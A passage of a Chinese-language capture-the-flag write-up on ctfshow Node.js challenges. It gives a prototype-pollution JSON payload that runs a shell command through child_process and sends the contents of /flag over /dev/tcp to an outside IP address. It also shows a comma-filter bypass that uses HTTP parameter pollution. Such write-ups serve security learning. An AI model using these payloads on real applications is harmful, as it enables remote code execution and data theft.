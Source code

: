 ```json
{"__proto__":{"__proto__": {"type":"Block","nodes":"","compileDebug":1,"self":1,"line":"global.process.mainModule.require('child_process').exec('bash -c \"cat /flag >& /dev/tcp/119.3.217.40/6666>&1\"')"}}}
```

![](https://i.loli.net/2021/09/08/Oo7Ais9UDraIdvM.png)

343过滤了一些东西，但是上面的payload还是可以打通，感兴趣可以看一下源码



## 344 HPP

> ```js
> router.get('/', function(req, res, next) {
> res.type('html');
> var flag = 'flag_here';
> if(req.url.match(/8c|2c|\,/ig)){
> 	res.end('where is flag :)');
> }
> var query = JSON.parse(req.query.query);
> if(query.name==='admin'&&query.password==='ctfshow'&&query.isVIP===true){
> 	res.end(flag);
> }else{
> 	res.end('where is flag. :)');
> }
> 
> });
> ```
>
> 存在过滤： url 中不能包含大小写的 `8c`、`2c` 和 `,逗号`

正常来说，我们只需要传入：

```json
?query={"name":"admin","password":"ctfshow","isVIP":"true"}
```

但过滤了逗号和其url编码格式，%2c

> 考虑http协议中是允许同名参数多次出现的，只是不同的服务端对同名参数的处理不同
>
> | Web服务器        | 参数获取函数                | 获取到的参数                 |
> | ---------------- | --------------------------- | ---------------------------- |
> | PHP/Apache       | $_GET(“par”)                | Last                         |
> | JSP/Tomcat       | Request.getParameter(“par”) | First                        |
> | Perl(CGI)/Apache | Param(“par”)                | First                        |
> | Python/Apache    | getvalue(“par”)             | All(List)                    |
> | ASP/IIS          | Request.QueryString(“par”)  | All (comma-delimited string) |

nodejs 会把同名参数以数组的形式存储，并且 `JSON.parse` 可以正常解析。

payload：

```json
?query={"name":"admin"&query="password":"%63tfshow"&query="isVIP":true}
```

nodejs中会把这三部分拼接起来
把ctfshow中的c编码是因为双引号的url编码是%22再和c连接起来是%22c，会匹配2c



